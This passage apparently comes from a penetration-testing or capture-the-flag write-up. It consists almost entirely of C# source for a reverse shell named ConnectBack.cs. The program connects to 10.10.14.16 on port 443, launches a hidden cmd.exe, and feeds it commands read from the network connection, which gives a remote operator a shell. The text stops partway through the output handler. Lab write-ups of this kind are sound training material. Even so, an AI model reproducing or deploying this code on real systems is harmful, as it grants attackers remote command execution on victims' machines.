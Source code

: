 ```bash
nvim ConnectBack.cs
```

> **ConnectBack.cs**

```c
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient("10.10.14.16", 443))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
```
